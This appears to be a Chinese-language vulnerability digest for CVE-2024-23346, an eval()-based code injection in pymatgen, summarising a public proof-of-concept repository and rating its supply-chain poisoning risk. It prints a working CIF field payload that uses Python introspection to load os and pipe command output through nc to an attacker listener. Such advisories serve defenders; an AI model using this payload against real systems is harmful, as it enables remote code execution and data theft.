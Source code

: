 ## CVE-2024-23346-pymatgen-代码注入

**漏洞编号:** CVE-2024-23346

**漏洞类型:** 代码注入

**影响应用:** pymatgen

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** < 2024.2.20

**利用条件:** 需要能够上传CIF文件，且目标系统安装了受影响版本的pymatgen

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-23346 漏洞存在于 pymatgen 库的 `JonesFaithfulTransformation.from_transformation_str()` 方法中。该方法使用 `eval()` 处理输入，这使得攻击者可以通过构造恶意的 `transformation_string` 在目标系统上执行任意代码。PoC 代码通过上传包含恶意 `_space_group_magn.transform_BNS_Pp_abc` 字段的 CIF 文件，触发漏洞。漏洞利用过程如下：

1.  **登录:** 使用提供的用户名和密码登录目标应用。
2.  **清理:** 删除所有现有的结构。
3.  **命令执行:** 循环执行命令直到输入 "exit"。
    *   **反弹shell:** 监听指定端口,用于接收反弹shell
    *   **生成恶意CIF文件:**  构造包含恶意代码的CIF文件。该CIF文件包含一个经过精心设计的`_space_group_magn.transform_BNS_Pp_abc` 字段，其中包含要执行的命令和反弹shell指令。`_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("echo $(echo $({cmd}) | /usr/bin/nc -nv {lhost} {randport})");0,0,0'`  该字段利用python的自省机制，获取os模块并执行命令。
    *   **上传CIF文件:** 将恶意CIF文件上传到目标服务器。
    *   **触发漏洞:** 访问上传的结构，触发 `JonesFaithfulTransformation.from_transformation_str()` 方法，执行恶意代码。
    *   **删除结构:** 清理上传的结构。
4.  **退出:** 退出终端。

**投毒风险分析：** PoC代码主要执行了命令执行和反弹shell的功能。虽然该代码本身不包含明显的恶意行为，但`exploit.py`脚本需要用户提供目标地址、用户名、密码以及监听地址。这意味着攻击者可能诱导用户使用该脚本攻击目标。脚本中使用了`eval`函数，存在被滥用的风险，但这不是作者主动投毒，而是漏洞本身的性质。删除所有结构的delete_all方法也可能会被恶意利用，导致数据丢失。总体投毒风险较低，估计为10%。大部分代码逻辑是围绕漏洞验证,后门代码是验证漏洞的不可或缺的部分,因此不能判定为投毒代码。

**项目地址:** [MAWK0235/CVE-2024-23346](https://github.com/MAWK0235/CVE-2024-23346)

**漏洞详情:** [CVE-2024-23346](https://nvd.nist.gov/vuln/detail/CVE-2024-23346)